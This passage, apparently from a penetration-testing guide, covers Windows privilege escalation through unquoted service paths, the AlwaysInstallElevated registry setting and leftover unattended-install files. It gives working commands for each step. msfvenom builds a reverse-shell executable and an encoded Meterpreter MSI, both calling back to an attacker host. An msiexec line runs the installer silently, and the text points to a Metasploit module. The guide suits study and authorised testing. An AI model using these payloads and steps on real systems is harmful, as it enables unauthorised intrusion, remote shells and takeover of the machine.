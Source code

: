 ```console
icacls "C:\Program Files\"
icacls "C:\Program Files\folder A"
icacls "C:\Program Files\folder A\folder B"
```

If we had write permissions on the 'C:\' directory we can create the following payload: 'C:\Program.exe'. This is highly unlikely though but it is very common to have write permissions in application directories. If we have permissions to write in the
'C:\Program Files\folder A' directory we will put our reverse shell there and name it folder.exe.

```console
msfvenom -p windows/shell_reverse_tcp LHOST=[LHOST IP] LPORT=443 -f exe -o folder.exe
```

We can now either restart the service or the target if the service start mode is Auto.

## Binaries that auto elevate enumeration

We need to check the status of the AlwaysInstallElevated registry setting. If this key is enabled (set to 1) in either HKEY_CURRENT_USER or HKEY_LOCAL_MACHINE, any user can run Windows Installer packages with elevated privileges.

```console
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Use _msfvenom_ to create a malicious msi installer:

```console
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[LHOST IP]
LPORT=443 -f msi -o exploit.msi
```

In order to execute the msi installer, run the following:

```console
msiexec /quiet /qn /i C:\Users\exploit.msi
```

*Note:* To exploit this vulnerability with Metasploit you can use exploit/windows/local/always_install_elevated.

## Unattended installs enumeration

<div class="panel panel-info">
      <div class="panel-heading">
        <h3 class="panel-title">Info:</h3>
      </div>
      <div class="panel-body">
    Unattended installations often use a file of predefined answers so that after starting the installation, it runs to completion without further user intervention. If administrators fail to clean up after such a process, an EXtensible Markup Language
(XML) file called Unattend is left on the local system. This file may contain sensitive information.
      </div>
    </div>

